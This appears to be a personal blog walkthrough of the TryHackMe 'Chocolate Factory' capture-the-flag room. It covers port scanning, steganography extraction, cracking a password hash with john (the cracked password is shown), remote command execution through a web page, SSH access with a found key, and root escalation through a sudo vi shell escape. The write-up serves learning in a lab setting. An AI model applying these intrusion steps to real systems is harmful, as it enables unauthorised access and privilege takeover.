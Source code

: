 ```yaml
---

title: Walkthrough - Chocolate Factory
published: True
---
```


Find hidden keys, python programs and use base in A Charlie And The Chocolate Factory themed room, revisit Willy Wonka's chocolate factory!

[https://tryhackme.com/room/chocolatefactory](https://tryhackme.com/room/chocolatefactory)

* * *

## Notes

- ``sudo nmap -Pn -sS -p- -T4 10.10.192.137 -vvv``
- ``sudo nmap -sV -sT -sC -p21,22,80``

```shell 
PORT    STATE SERVICE    REASON
21/tcp  open  ftp        syn-ack ttl 61
22/tcp  open  ssh        syn-ack ttl 61
80/tcp  open  http       syn-ack ttl 61
100/tcp open  newacct    syn-ack ttl 61
101/tcp open  hostname   syn-ack ttl 61
102/tcp open  iso-tsap   syn-ack ttl 61
103/tcp open  gppitnp    syn-ack ttl 61
104/tcp open  acr-nema   syn-ack ttl 61
105/tcp open  csnet-ns   syn-ack ttl 61
106/tcp open  pop3pw     syn-ack ttl 61
107/tcp open  rtelnet    syn-ack ttl 61
108/tcp open  snagas     syn-ack ttl 61
109/tcp open  pop2       syn-ack ttl 61
110/tcp open  pop3       syn-ack ttl 61
111/tcp open  rpcbind    syn-ack ttl 61
112/tcp open  mcidas     syn-ack ttl 61
113/tcp open  ident      syn-ack ttl 61
114/tcp open  audionews  syn-ack ttl 61
115/tcp open  sftp       syn-ack ttl 61
116/tcp open  ansanotify syn-ack ttl 61
117/tcp open  uucp-path  syn-ack ttl 61
118/tcp open  sqlserv    syn-ack ttl 61
119/tcp open  nntp       syn-ack ttl 61
120/tcp open  cfdptkt    syn-ack ttl 61
121/tcp open  erpc       syn-ack ttl 61
122/tcp open  smakynet   syn-ack ttl 61
123/tcp open  ntp        syn-ack ttl 61
124/tcp open  ansatrader syn-ack ttl 61
125/tcp open  locus-map  syn-ack ttl 61

21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.127.225
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-rw-r--    1 1000     1000       208838 Sep 30  2020 gum_room.jpg
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:31:bb:b5:1f:cc:cc:12:14:8f:f0:d8:33:b0:08:9b (RSA)
|   256 e7:1f:c9:db:3e:aa:44:b6:72:10:3c:ee:db:1d:33:90 (ECDSA)
|_  256 b4:45:02:b6:24:8e:a9:06:5f:6c:79:44:8a:06:55:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

- ``gobuster dir -u http://10.10.192.137/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt -t 100 --no-error``

- the ftp we find a picture of wrigleys gum
- using ``stegseek`` we can get a base64 encrypted textfile. we can use ``base64 -d`` on it and we see its a user:pass list with charlie. lets crack.
- ``john charlie.hash --wordlist=/usr/share/seclists/Passwords/rockyou.txt``

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Chocolate-Factory]
└─$ john charlie.hash --wordlist=/usr/share/seclists/Passwords/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cn7824           (charlie)     
1g 0:00:06:41 DONE (2022-07-29 04:42) 0.002489g/s 2451p/s 2451c/s 2451C/s cocker6..cn123
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

- we can login to the http server page with these creds and it brings us to a page where we can execute commands remotely
- and ``ls`` shows us the files we can wget over to our machine.
- checking ``key_rev_key`` looks like we need a name to open the file to get a key. But trying every name I cant find anything. 
- checking the home directory we can find a ssh key with no password we can use to ssh in with charlie.

* * * 

## Enter the key you found!

- Using ``strings`` we can find the name and the key.

* * * 

## What is Charlie's password?

- we found this already with stegseek

* * * 

## change user to charlie

- login to ssh with the non password protected rsa key

* * * 

## Enter the user flag

- ``cat user.txt``

* * * 

## Enter the root flag

```shell
User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi
```

- we can privesc with vim
- ``sudo vi -c ':!/bin/sh' /dev/null``
- ``python /root/rooy.py`` and enter the key we found with ``strings`` on ``key_rev_key``

![0xskar](/assets/chocolate-factory01.png)

* * * 

